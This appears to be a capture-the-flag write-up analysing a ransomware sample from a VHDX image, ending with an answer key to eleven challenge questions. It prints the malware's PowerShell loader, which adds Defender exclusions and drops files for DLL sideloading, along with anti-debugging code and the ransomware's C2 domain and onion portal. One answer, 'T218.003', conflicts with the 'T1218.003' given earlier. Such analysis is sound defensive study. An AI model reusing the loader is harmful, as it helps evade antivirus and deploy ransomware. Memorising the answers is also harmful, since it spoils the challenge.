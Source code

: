 #Analysis
- Firstly, open vhdx file with SysTools VHDX Viewer, there is a obfucated js code, and other files. Based on time created in Viewer, the first file is created is redbadger.webp
Q1: hash of redbadger.webp after computing is 2c92c3905a8b978787e83632739f7071
- Check file rad897C.tmp, got the string that ransomware using to check admin privileges
Q2: S-1-5-32-544
- Convert vhdk disk to raw format and extract file by FTK Imager:
```bash
.\qemu-img.exe convert  -f vhdx -O raw ..\LockPick4.0\defenderscan.vhdx defenderscan.raw
```
- After examinating rad897c.tmp file, it's clearly that malware manipulate cmstp.exe to run malicious script. MITRE ATT&CK cmstp.exe corresponding to it is T1218.003
- Also in rad897c.tmp file, msmpeng.exe is a component of window defender is used for starting process after checking admin privilege
```bash
$frodo = "bXNtcGVuZy5leGU="  #msmpeng.exe
$samwise = "bXBzdmMuZGxs"    #mpsvc.dll
$aragorn = "ZGVmZW5kZXJzY2FuLmpzOmxvbGJpbg==" #defenderscan.js:lolbin
$legolas = "ZGVmZW5kZXJzY2FuLmpzOnBheWxvYWQ=" #defenderscan.js:payload

if (Test-HobbitInCouncil)
{
    if(-Not (Test-MordorElevation))
    {
        Bypass-GondorGate
    }
    else {
        $gandalf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($frodo))
        Add-MpPreference -ExclusionProcess $gandalf
		Add-MpPreference -ExclusionPath (Get-Item .).FullName
        $boromir = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($aragorn))
        $gandalfContent = Get-Content $currentDirectory\$boromir -Encoding Byte -ReadCount 0
        Set-Content $currentDirectory\$gandalf -Encoding Byte -Value $gandalfContent
        $gimli = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($legolas))
        $aragorn = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($samwise))
        $aragornContent = Get-Content $currentDirectory\$gimli -Encoding Byte -ReadCount 0
        Set-Content $currentDirectory\$aragorn -Encoding Byte -Value $aragornContent
        $proc = Start-Process $currentDirectory\$gandalf -Wait
        Remove-Item $currentDirectory\$gandalf
        Remove-Item $currentDirectory\$aragorn
    }
}
```
Q4: View the properties of file msmpeng.exe is Microsoft Corporation
- The next part is disassemble code of msmpeng.exe and mpsvc.dll. In msmpeng.exe file, this call a function named ServiceCrtMain
```bash
.text:0000000140001010                 public AbsMain
.text:0000000140001010 AbsMain         proc near               ; DATA XREF: .rdata:__guard_fids_table↓o
.text:0000000140001010                                         ; .pdata:ExceptionDir↓o
.text:0000000140001010                 sub     rsp, 28h
.text:0000000140001014                 call    __security_init_cookie
.text:0000000140001019                 xor     edx, edx
.text:000000014000101B                 xor     ecx, ecx
.text:000000014000101D                 call    cs:__imp_ServiceCrtMain
.text:0000000140001023                 xor     ecx, ecx
.text:0000000140001025                 test    eax, eax
.text:0000000140001027                 sets    cl              ; uExitCode
.text:000000014000102A                 call    cs:__imp_ExitProcess
```
- This function is imported from mpsvc.dll, I check this file is packed, then this should be the final payload
Q5: ServiceCrtMain
- About antidebug techniques, first:
+ using IsDebuggerPresent api
```bash
if ( IsDebuggerPresent() )
    goto LABEL_36;
```
+ check powershell is running or not, then break if not running
```bash
CurrentProcessId = GetCurrentProcessId();
  memset(&pe.cntUsage, 0, 0x234ui64);
  pe.dwSize = 568;
  Toolhelp32Snapshot = CreateToolhelp32Snapshot(2u, 0);
  v2 = Toolhelp32Snapshot;
  if ( Toolhelp32Snapshot != (HANDLE)-1i64 && Process32FirstW(Toolhelp32Snapshot, &pe) )
  {
    while ( pe.th32ProcessID != CurrentProcessId )
    {
      if ( !Process32NextW(v2, &pe) )
        goto LABEL_6;
    }
    th32ParentProcessID = pe.th32ParentProcessID;
    if ( pe.th32ParentProcessID != -1 )
    {
      pe.dwSize = 568;
      if ( Process32FirstW(v2, &pe) )
      {
        while ( pe.th32ProcessID != th32ParentProcessID )
        {
          if ( !Process32NextW(v2, &pe) )
            goto LABEL_6;
        }
        if ( wcsicmp(pe.szExeFile, L"powershell.exe") )
          exit(0);
      }
    }
  }
```
+ Final technique is using custom exception handler
```bash
__int64 sub_180001EB0()
{
  SetUnhandledExceptionFilter(UnhandledExceptionFilter);
  __debugbreak();
  return 1i64;
}
```
Q6: 3, SetUnhandledExceptionFilter
- Use msmpeng.exe to load mpsvc.dll, no doubt this is dll sideloading: T1574.002
Q9: T1574.002
- Running malicious malware leads to ransom note that includes url for services portal, also file extension encryption
Q10: yrwm7tdvrtejpx7ogfhax2xuxkqejp2qjb634qwwyoyabkt2eydssrad.onion:9001
Q11: .evil
#Questions
## 1. What is the MD5 hash of the first file the ransomware writes to disk?
- 2c92c3905a8b978787e83632739f7071
## 2. What is the string that the ransomware uses to check for local administrator privileges?
- S-1-5-32-544
## 3. What is the MITRE ATT&CK ID for the technique used by the threat actor to elevate their privileges?
- T218.003
## 4. The ransomware starts a process using a signed binary, what is the full name of the signer?
- Microsoft Corporation
## 5. What is the final payloads' entry point function?
- ServiceCrtMain
## 6. How many Anti-Debugging techniques does the ransomware implement and what is the Windows API function that the final technique leverages?
- 3, SetUnhandledExceptionFilter
## 7. The ransomware targets files with specific extensions, what is the list of extensions targeted in the exact order as the ransomware configuration stores them?
- .doc, .docx, .xls, .xlsx, .ppt, .pptx, .pdf, .txt, .csv, .rtf
## 8. What is the FQDN of the ransomware server the malware connects to?
- api.ltchealthcare.co
## 9. What is the MITRE ATT&CK ID the ransomware uses to run its final payload?
- T1574.002
## 10. What is the full URL including port number of the ransomware groups customer service portal?
- yrwm7tdvrtejpx7ogfhax2xuxkqejp2qjb634qwwyoyabkt2eydssrad.onion:9001
## 11. What is the file extension used to store the newly encrypted files?
- .evil